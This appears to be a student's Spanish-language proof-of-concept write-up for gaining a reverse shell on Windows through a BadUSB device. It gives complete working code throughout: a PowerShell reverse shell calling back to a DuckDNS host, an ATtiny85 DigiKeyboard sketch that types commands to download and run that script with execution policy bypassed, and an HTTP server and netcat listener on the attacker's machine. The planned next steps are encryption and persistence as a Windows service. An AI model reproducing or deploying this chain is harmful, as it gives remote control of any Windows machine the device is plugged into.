


## Objetivo

El objetivo de esta prueba de concepto es obtener una shell inversa en un sistema Windows y enviarla a un servidor remoto.

## Desarrollo

### Configuración del servidor 🖥️

Usamos la misma configuración de la [Tarea 998, Configuración del servidor remoto](tarea-998.md#configuración-del-servidor-remoto), solo que ahora activamos otro puerto en el firewall de Ubuntu:

```bash
sudo ufw allow 8181
```

este puerto servirá para la descarga de nuestro script en el sistema Windows.

### Configuración de Script Rshell

Crea una carpeta llamada `scripts` en el directorio `$HOME` de tu usuario y dentro de esta carpeta crea un archivo llamado `unicorn` con el siguiente contenido:

```powershell
# $HOME/scripts/unicorn
$client = New-Object System.Net.Sockets.TCPClient('dominio.duckdns.org', 8080)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
};
$client.Close();
```

donde `dominio.duckdns.org` es el dominio que se creó en [DuckDNS](https://www.duckdns.org/), y `8080` es el puerto que está escuchando en el servidor remoto

**instala** `screen` en el servidor con el comando:

```bash
sudo apt -y install screen
```

**Crea** una sesión de `screen` con:

```bash
screen -S pythonServer
```

Ahora inicia un servidor HTTP en el puerto 8181 con el siguiente comando:

```bash
python3 -m http.server 8181
```

Presiona `Ctrl + A + D` para salir de la sesión de `screen`, el servidor seguirá corriendo en segundo plano. este pequeño servidor servirá para que nuestro Attiny85 pueda descargar el script `unicorn` y ejecutarlo.

> Puedes volver a la sesión de `screen` con el comando `screen -r pythonServer`

### Configuración de Attiny85 🧮

Usando el siguiente código en el Attiny85, se puede descargar el script `unicorn` y ejecutarlo en el sistema Windows:

```cpp
#include <DigiKeyboard.h>

void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
}

void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(2000); 
}

void typeCommand() {
    DigiKeyboard.println("Invoke-WebRequest -Uri 'http://dominio.duckdns.org:8181/scripts/unicorn' -OutFile 'C:\\Windows\\Temp\\unicorn.ps1';");
    DigiKeyboard.delay(2000);
    DigiKeyboard.println("powershell -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\unicorn.ps1");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void setup() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(500);

    typeCommand();
    }

void loop() {}

```

_donde `dominio.duckdns.org` es el dominio que se creó en [DuckDNS](https://www.duckdns.org/)_

El código ino lo debes cargar al Attiny85 similar a como se muestra [aquí](tarea-998.md#configuración-de-arduino-ide-2x)

### Configuración de NetCat 🐱

Usa el comando `nc` en el servidor para escuchar en un puerto específico, por ejemplo el puerto 8080:

```bash
nc -lvnp 8080
```

donde `-l` es para escuchar, `-v` es para verbose, `-n` es para no resolver nombres de dominio y `-p` es para especificar el puerto.

> Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás una shell inversa en el servidor remoto.

### Verificación 👀

Para verificar que la shell inversa se ha obtenido correctamente, se puede ejecutar el siguiente comando en el servidor remoto:

```bash
ls
```

y se debe obtener una salida del directorio de Windows:



se creó un archivo `hack.txt` en el sistema Windows con el comando:

```bash
echo "Hackeado por el Gatovsky" > C:\\Users\\Jorda\\Desktop\\hack.txt
```

y se verificó que se creó correctamente con el comando:

```bash
cat C:\\Users\\Jorda\\Desktop\\hack.txt
```



## Proximos Pasos

- [ ] Encriptar la comunicación entre el cliente y el servidor
- [ ] Crear un payload en Atttiny85 para ejecutar la shell inversa en un sistema Windows
- [ ] Crear un servicio de Windows para ejecutar la shell inversa en segundo plano

(Pasos opcionales si no me reprueba el profe)

---

Nota: Ninguna PC fue lastimada en la realización de esta prueba de concepto.
